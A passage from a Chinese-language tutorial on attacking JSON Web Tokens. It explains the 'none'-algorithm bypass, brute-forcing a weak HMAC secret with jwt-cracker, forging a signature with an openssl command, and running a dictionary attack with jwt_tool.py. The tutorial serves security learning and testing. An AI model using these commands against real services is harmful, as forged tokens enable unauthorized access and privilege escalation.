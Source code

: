 *您可以看到我们的令牌已生成，您可以使用它进行攻击，就像我们在上面执行的操作一样。*

*所以基本上，我们只是改变了这里的算法来摆脱签名验证，但是这种攻击只有在框架支持 none 类型算法时才起作用。这只是一个便于理解的示例，在真实的场景中，您必须自己检查需要修改什么值才能获得升级。*

*   ***破解脆弱的共享秘密***

*如果令牌使用任何脆弱的秘密字符串进行加密，那么我们可以尝试暴力破解它，或者执行字典攻击。*

1.  ***暴力破解**密钥，为此我们有一个名为 [jwt-cracker](https://github.com/lmammino/jwt-cracker) 的工具。*

> *用法:`jwt-cracker <token> [alphabet] [<maxlength>]`*

*示例:*

*![](img/f92c61eebc25858d2c994534014474ee.png)*

> *秘密被发现: *123456* ，所以我们可以用这个秘密来生成令牌的签名*

```
**Generate signature with the help of secret key...***Usage :**
echo -n "<header>.<payload>" | openssl dgst -sha256 -hmac '<secret key>' -binary | openssl base64 -e -A | sed 's/\+/-/g' | sed 's/\//_/g' | sed -E s/=+$// **Example:**
echo -n "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ" | openssl dgst -sha256 -hmac '123456' -binary| openssl base64 -e -A | sed 's/\+/-/g' | sed 's/\//_/g' | sed -E s/=+$//**output** **:- keH6T3x1z7mmhKL1T3r9sQdAxxdzB6siemGMr_6ZOwU**This is how we are able to generate signature ...*
```

***2。**执行**字典攻击**以获得密钥。*

*我们可以用之前用过的名为`jwt_tool.py`的工具进行攻击*

*用法:*

*`python3 jwt_tool.py <JWToken> -C -d secrets.txt`*

```
***secrets.txt** contains the list of possible secrets..❯ cat secrets.txt
654321
456789
741258
963258
744569
123478
123456
789654
159632
753148*
```

*示例:*

